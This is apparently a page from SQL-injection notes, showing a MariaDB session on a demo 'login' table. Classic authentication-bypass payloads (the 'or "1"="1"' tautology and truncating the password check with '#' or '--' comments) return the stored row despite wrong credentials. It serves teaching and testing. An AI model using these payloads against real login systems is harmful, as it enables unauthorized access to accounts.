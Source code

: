    - Oracle
   - UTL_HTTP



### Classic Injection Bypass

```
MariaDB [y]> use dark
Database changed

MariaDB [dark]> select * from login;
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="Sherwin" and password="12345";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="sherwin" or "1"="1" and password="12345" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1" and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";# and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";-- and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```
